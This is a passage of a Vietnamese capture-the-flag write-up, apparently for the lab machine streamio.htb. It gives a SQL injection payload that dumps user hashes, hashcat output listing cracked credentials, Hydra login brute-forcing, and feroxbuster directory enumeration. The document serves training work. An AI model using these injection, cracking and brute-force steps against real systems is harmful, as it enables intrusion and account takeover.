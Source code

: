1' UNION SELECT 1,concat(username,':',password),3,4,5,6 FROM users-- -

tìm thấy nhiều user và hash tương ứng -> decrypt hash để lấy pw plaintext

xác định loại hash:

[Hash Type Identifier - Identify unknown hashes](https://hashes.com/en/tools/hash_identifier)

![https://lh7-us.googleusercontent.com/v7OPD3RARBIp5d4atVnfzUdh7nFsKKqsW2PsOYV8F8sWeBAXOHTd1_BVMEtg5Iy-FK9rBJ0_VzBzd3UKWO96xWBXybm8W5JvLPWd3NNH4XKLRgJih32bOVcml-VR6Hiy9Lcye8XtHTtF](https://lh7-us.googleusercontent.com/v7OPD3RARBIp5d4atVnfzUdh7nFsKKqsW2PsOYV8F8sWeBAXOHTd1_BVMEtg5Iy-FK9rBJ0_VzBzd3UKWO96xWBXybm8W5JvLPWd3NNH4XKLRgJih32bOVcml-VR6Hiy9Lcye8XtHTtF)

crack:

hashcat -m 0 hash_1.txt /home/kali/Documents/wordlist/ry.txt --username --show

admin:0cc175b9c0f1b6a831c399e269772661:a

admin:665a50ac9eaa781e4f7f04199db97a11:paddpadd

Barry:54c88b2dbd7b1a84012fabc1a4c73415:$hadoW

Bruno:2a4e2cf22dd8fcb45adcb91be1e22ae8:$monique$1991$

Clara:ef8f3d30a856cf166fb8215aca93e9ff:%$clara

Juliette:6dcd87740abb64edfa36d170f0d5450d:$3xybitch

Lauren:08344b85b329d7efd611b7a7743e8a09:##123a8j8w5123##

Lenord:ee0b8a0937abd60c2882eacb2f8dc49f:physics69i

Michelle:b83439b16f844bd6ffe35c02fe21b3c0:!?Love?!123

Sabrina:f87d3c0d6c8fd686aacc6627f1f493a5:!!sabrina$

Thane:3577c47eb1e12c8ba021611e1280753c:highschoolmusical

Victoria:b22abb47a02b52d5dfa27fb0b534f693:!5psycho8!

yoshihide:b779ba15cedfd22a023c4d8bcf5f2332:66boysandgirls..

cho vào file list.txt

tách thành file username.txt và pw.txt

cut -d ":" -f1 list.txt > username.txt

cut -d ":" -f3 list.txt > pw.txt

bruteforce để đăng nhập /login.php sử dụng plugin https-post-form với mẫu của yêu cầu POST và chuỗi phản hồi mà Hydra sẽ theo dõi để xác định liệu thử nghiệm đã thất bại hay không.

hydra -L username.txt -P pw.txt streamio.htb https-post-form "/login.php:username=^USER^&password=^PASS^:F=Login failed"

![https://lh7-us.googleusercontent.com/vdwSP9Hf5x9zlbMjwlfKeWIi6cJWssj8YK_YSRYyS3YaAoLuG6KQQsfe1px9vGX-6bTDIVlr2fP7QrwBcoAxzEvp9qtne9So8hv8c_EMpFY-oRhdOK-QMmVM46pjiUHD39ESbR1j-tBt](https://lh7-us.googleusercontent.com/vdwSP9Hf5x9zlbMjwlfKeWIi6cJWssj8YK_YSRYyS3YaAoLuG6KQQsfe1px9vGX-6bTDIVlr2fP7QrwBcoAxzEvp9qtne9So8hv8c_EMpFY-oRhdOK-QMmVM46pjiUHD39ESbR1j-tBt)

![https://lh7-us.googleusercontent.com/nlAPfQO1jI3lWHzPc52yOETQIuWRXFOr31_h_UEoEPEJZZpLvPzZTgquSAr2ftD8nzlVOAAhnksZ2vPp2MI2z4bvT1DXWg4-Z5iGSakRXhPfa_INLJldeLFnoSnD-ClmnhMKzZPPfOTc](https://lh7-us.googleusercontent.com/nlAPfQO1jI3lWHzPc52yOETQIuWRXFOr31_h_UEoEPEJZZpLvPzZTgquSAr2ftD8nzlVOAAhnksZ2vPp2MI2z4bvT1DXWg4-Z5iGSakRXhPfa_INLJldeLFnoSnD-ClmnhMKzZPPfOTc)

feroxbuster -u https://streamio.htb -x php -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -k

![https://lh7-us.googleusercontent.com/EM5WeOAbWqNpPn_uF2VWgEmJwETH756fwjrtic0mA_g5A1W4D1_I_Q09DxcKyQM7JsgGBDVLbyrHAbNgRA3L2IjWx8W0GQ_hvkFefCqavU2sHBP6o8UPGHznVhfLxa65lZ6vniuW5W6T](https://lh7-us.googleusercontent.com/EM5WeOAbWqNpPn_uF2VWgEmJwETH756fwjrtic0mA_g5A1W4D1_I_Q09DxcKyQM7JsgGBDVLbyrHAbNgRA3L2IjWx8W0GQ_hvkFefCqavU2sHBP6o8UPGHznVhfLxa65lZ6vniuW5W6T)
